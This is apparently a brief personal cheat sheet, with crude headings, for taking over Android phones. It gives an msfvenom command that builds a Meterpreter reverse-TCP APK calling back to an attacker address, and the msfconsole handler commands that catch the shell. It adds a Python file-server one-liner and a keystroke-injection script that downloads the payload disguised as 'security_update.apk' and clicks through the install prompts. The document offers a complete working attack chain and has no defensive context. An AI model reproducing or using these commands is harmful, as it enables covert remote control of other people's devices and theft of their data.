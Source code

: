 # Android Hackfuckin
## Meterpreter
`msfvenom --payload android/meterpreter_reverse_tcp LHOST=10.0.0.51 LPORT=443 R > rawdoggin_output.apk`

## Msfconsole
```
sudo msfconsole -q
msf > use exploit/multi/handler
msf exploit(handler) > set payload android/meterpreter_reverse_tcp
msf exploit(handler) > set lhost 10.0.0.51
msf exploit(handler) > set lport 443
msf exploit(handler) > exploit -j
```

## Python Shitfuckery
`python -m http.server 8787`

## Some Shit
```
TAB
DELAY 250
GUI b
DELAY 800
CTRL SHIFT n
DELAY 500
CTRL l
DELAY 1000
STRING 192.168.4.4:9002/security_update.apk
ENTER
DELAY 7000
TAB
TAB
DOWN
RIGHT
ENTER
DELAY 1000
TAB
ENTER
TAB
TAB
RIGHT
ENTER
TAB
ENTER
TAB
ENTER
DELAY 2000
TAB
ENTER
TAB
TAB
TAB
TAB
TAB
TAB
TAB
TAB
DELAY 350
TAB
ENTER
DELAY 350
ENTER
```